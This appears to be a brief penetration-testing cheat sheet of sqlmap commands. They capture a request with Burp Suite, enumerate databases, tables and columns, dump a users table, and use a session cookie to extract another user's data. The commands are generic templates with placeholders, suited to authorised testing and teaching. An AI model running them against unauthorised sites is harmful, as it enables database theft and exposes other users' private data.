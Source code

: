 ## SQLmap

For this attack you should capture the request of an input parameter with burp. For this, you just have to intercept the request (login for example) and then just copy the request and save it in a txt file and run sqlmap with:

````
sqlmap -r <burpsuite txt file> --dbs
````


````
sqlmap -r <txt file from burpsuite> -D <database name> --tables
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --dump
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users
````

--------------------------------
**Lateral Movement**

On a website attack, you can use your session cookie (if you have an account) to extract information of another user from the table with sqlmap.

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump tables
````
-----------------------------------

